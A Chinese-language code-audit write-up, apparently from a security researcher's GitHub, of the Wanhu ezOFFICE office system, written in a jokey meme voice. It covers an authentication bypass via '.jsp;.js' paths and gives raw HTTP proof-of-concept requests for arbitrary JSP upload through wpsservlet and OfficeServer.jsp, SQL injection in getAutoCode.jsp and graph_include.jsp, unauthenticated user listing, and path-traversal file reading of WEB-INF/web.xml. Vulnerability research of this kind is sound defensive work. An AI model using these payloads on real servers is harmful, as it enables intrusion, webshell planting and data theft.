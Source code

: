 ## 重生之我在提瓦特大陆审计万户ezoffice

惹啊🥵，熟悉我的8u们都知道，我就职于一家全新开放冒险公司，公司位于一个被称作「提瓦特大陆」的幻想地，而鼠鼠我啊本来是不想更新了，因为本来以为我即将迎来拥有对象、跑步健身、练习乐器的现充生活🥳🥰，现在只剩下 现 充 的一半了(😅)



### 鉴权绕过



鉴权代码在SetCharacterEncodingFilter中

打开之后可以看到后续代码都是去对request_shorturi中的路径来决定后续操作

`request_longURL` 获取完整的请求 URI 其实代码就是request.getRequestURI ，`ctx_path` 获取上下文路径

`request_shorturi` 通过截取上下文路径后的部分来获得相对于上下文根的请求路径。

而8u们都知道对request.getRequestURI的经典操作，就像到了星期四就知道要发点vme50、看到美女就已经幻想...

继续往下看一下远方美丽的代码吧

![image-20240813165334550](./Images/13.png)

来到这里

首先会从请求URI中提取文件后缀

当后缀为jspx的时候直接重定向到/defaultroot/login.jsp，但是这个就像鼠鼠们一样无关紧要



当后缀匹配到这些的时候会根据路径进行不同的重定向操作，当直接访问defaultroot/platform/custom/customizecenter/js/**get**AutoCode.jsp会来到最后重定向到/defaultroot/public/messages/overtime.jsp

```
if ((suffix.equals("") || suffix.equals(".jsp") || suffix.equals(".vm")) && this.needSecurity && request_shorturi.indexOf("/evo/weixin/") < 0 && request_shorturi.indexOf("/portal/") < 0 && request_shorturi.indexOf("/upgrade/") < 0 && request_shorturi.indexOf("/public/edit/") < 0 && request_shorturi.indexOf("/rongCloudServelt/") < 0 && request_shorturi.indexOf("/public/upload/") < 0 && request_shorturi.indexOf("/upload_2016/uploadify/") < 0 && request_shorturi.indexOf("/download/") < 0 && !security.getNosessionWhiteList().contains(request_shorturi) && !this.customSysLoginUriList.contains(request_shorturi)) {
```

![image-20240813170822494](./Images/14.png)

而当我们对jsp进行url编码或者.jsp;.js来访问。isExcludedAction默认为true且不会进入271行的if语句使isExcludedAction为false最后访问到文件

![image-20240813172600754](./Images/15.png)



### wpsservlet文件上传

网上的poc如下

```
POST /defaultroot/wpsservlet?option=saveNewFile&newdocId=apoxkq&dir=../platform/portal/layout/&fileType=.jsp HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Content-Length: 173Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3Connection: close
Content-Type: multipart/form-data; boundary=ufuadpxathqvxfqnuyuqaozvseiueerp
DNT: 1
Upgrade-Insecure-Requests: 1

--ufuadpxathqvxfqnuyuqaozvseiueerp
Content-Disposition: form-data; name="NewFile"; filename="apoxkq.jsp"

<% out.print("sasdfghjkj");%>
--ufuadpxathqvxfqnuyuqaozvseiueerp--
```



![image-20240814095238873](./Images/16.png)

在saveNewFile只检测了是否匹配到pdf 和wps并没有对其他后缀进行拦截

![image-20240814104749606](./Images/17.png)

最后上传后保存的文件路径组成

```
String filePath = SystemPath.getRootFilePath() + File.separator + "upload" + File.separator + dir + File.separator + docId + fileType;
```

所以poc是**newdocId=**apo&**dir=**../platform/portal/layout/&**fileType=**.jsp



来到saveNewFileToDB也没有什么拦截措施，甚至还有个sql注入

![image-20240814100800521](./Images/18.png)

而在下面还有个saveFile，是代码简化了的saveNewFile，直接参数改一下就可以上传了

![image-20240814103540392](./Images/19.png)



### officeserver.jsp文件上传漏洞

这个就是金格组件导致的

```
POST /defaultroot/public/iWebOfficeSign/OfficeServer.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0

DBSTEP V3.0     145             0               105             DBSTEP=REJTVEVQ
OPTION=U0FWRUZJTEU=
RECORDID=
isDoc=dHJ1ZQ==
moduleType=Z292ZG9jdW1lbnQ=
FILETYPE=Ly8uLi8uLi9wdWJsaWMvZWRpdC83Yzc1QWYuanNw
<% out.println("5EA635");new java.io.File(application.getRealPath(request.getServletPath())).delete(); %>
```



关于金格组件的漏洞分析及waf绕过：https://flowerwind.github.io/2022/09/05/%E5%85%B3%E4%BA%8E%E9%87%91%E6%A0%BC%E7%BB%84%E4%BB%B6%E4%B8%8A%E4%BC%A0%E7%BB%95waf%E7%9A%84tips/



### getAutoCode.jsp sql注入

```

GET /defaultroot/platform/custom/customizecenter/js/getAutoCode.jsp;.js?field=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: application/signed-exchange;v=b3;q=0.7,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


<%
      request.setCharacterEncoding("UTF-8");
   String pageId = request.getParameter("pageId");
        String head = request.getParameter("head");
      String field = request.getParameter("field");
      String tabName = request.getParameter("tabName");
      String table = tabName;
        com.whir.ezoffice.customdb.common.util.DbOpt dbopt = null;
        String newCode = "";
        response.setContentType("text/xml; charset=UTF-8");
        response.setHeader("Cache-Control","no-cache");
        try{
               dbopt = new com.whir.ezoffice.customdb.common.util.DbOpt();
            //String table = dbopt.executeQueryToStr("select AREA_TABLE from tarea where PAGE_ID="+pageId);
            String currentCode = dbopt.executeQueryToStr("select "+field+" from "+tabName+" where "+field+" like '"+head+"%' order by "+tabName+"_id desc");
            
```



### graph_include.jsp sql注入

```
	String startDate = request.getParameter("startDate")!=null?request.getParameter("startDate"):"";
		String id = EncryptUtil.htmlcode(request,"id");//request.getParameter("id")!=null?request.getParameter("id"):"";
			if(!"".equals(id)){
		GraphReportPO po = bd.load(Long.valueOf(id));
						GraphReportTypePO o = bd.loadType(po.getTypeId());
				reportType = o.getType()!=null?o.getType().toString():"";		
								} else if("2".equals(reportType)){										
					if("oracle".equalsIgnoreCase(dbType)){
						String sql2 = po.getDataSQL();

						String whereSql = sql2.substring(sql2.lastIndexOf("=")+1,sql2.length());
						if(startDate!=null && !"".equals(startDate)){
							sql = " select * from (select sum(s.num) ,empname from (select count(log_id) as num,e.empname from security_log t,org_employee e "
								+" where oprstarttime > to_date('"+startDate+" 00:00:00','yyyy-mm-dd,hh24:mi:ss') "
								+";
						}else{
```



### evoInterfaceServlet 未授权访问

```
public class EvoInterfaceServlet extends HttpServlet {

    public void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        String param = request.getParameter("paramType");
        
                    if ("user".equals(param)) {
                listType = "userList";
                userList = bd.getAllUserInfoList(domainId);
                
                    public List getAllUserInfoList(Long domainId) throws Exception {
                                String sql = "select emp.EMP_ID,emp.empname,emp.userAccounts,xxxxxxxxxxand emp.EMP_ID!=1";
            ResultSet rs = stmt.executeQuery(sql);
```



### text2Html接口任意文件读取

网上poc如下

```
POST /defaultroot/convertFile/text2Html.controller HTTP/1.1
Host:  
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36
Connection: close
Content-Length: 63
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
SL-CE-SUID: 1081

saveFileName=123456/../../../../WEB-INF/web.xml&moduleName=html
```





```
      <servlet-mapping>
    <servlet-name>spring</servlet-name>
    <url-pattern>*.controller</url-pattern>
  </servlet-mapping>
  所以访问要加.controller
    @RequestMapping({"/text2Html"})
    public String text2Html(HttpServletRequest request, HttpServletResponse response) {

        String saveFileName = request.getParameter("saveFileName");
        String moduleName = request.getParameter("moduleName");
        String rootPath = request.getSession().getServletContext().getRealPath("/");
        String documentFilePath = rootPath + File.separator + "upload" + File.separator + moduleName + File.separator + saveFileName.substring(0, 6) + File.separator + saveFileName;
        File realFile = new File(documentFilePath);
```

